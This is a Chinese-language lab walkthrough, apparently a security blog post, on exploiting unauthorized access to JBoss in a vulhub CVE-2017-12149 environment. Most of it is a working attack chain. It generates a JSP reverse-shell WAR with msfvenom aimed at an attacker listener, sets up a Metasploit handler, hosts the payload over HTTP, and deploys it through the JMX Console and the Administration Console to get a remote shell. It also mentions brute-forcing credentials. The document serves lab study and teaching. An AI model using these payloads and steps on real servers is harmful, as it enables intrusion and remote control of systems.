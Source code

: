 # JBoss未授权访问

### 0x00 环境搭建

使用vulhub的CVE-2017-12149漏洞环境`jboss/CVE-2017-12149`

![image-20230412153049744](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412153049744.png)

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

利用条件：

>  知道账户名密码，登录的账户密码为`admin/vulhub`，也可以进行爆破获取

### 0x01 JBoss6.x JMX Console未授权访问

1、kali生成木马，并打开msf监听5555端口

```shell
msfvenom -p java/jsp_shell_reverse_tcp lhost=192.168.12.152 lport=5555 -f war > jboss_sh.war
```

```shell
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
msf6 exploit(multi/handler) > set lhost 192.168.12.152
msf6 exploit(multi/handler) > set lport 5555
msf6 exploit(multi/handler) > run
```

2、开启http服务

```
python -m http.server 8080
```

3、JMX Console ——> jboss.system ——> service=MainDeployer

在其中任意deploy部署war包，输入url地址就好

```
http://192.168.12.152:8080/jboss_sh.war
```

![image-20230412153603840](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412153603840.png)

4、点击invoke即可部署成功

5、访问以下地址即可成功反弹shell

```
http://192.168.12.130:8080/jboss_sh/
```

![image-20230412153904812](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412153904812.png)



### 0x02 JBoss Administration Console未授权访问

1、重新启动靶场环境重复上面第一个步骤

2、访问Administration Console，登录用户`admin/vulhub`

3、访问Web Application (WAR)s ——> Add a new resource，上传准备好的木马war包

![image-20230412160244784](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412160244784.png)

4、上传成功后访问以下地址即可成功反弹shell

```
http://192.168.12.130:8080/jboss_sh/
```

![image-20230412160355216](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412160355216.png)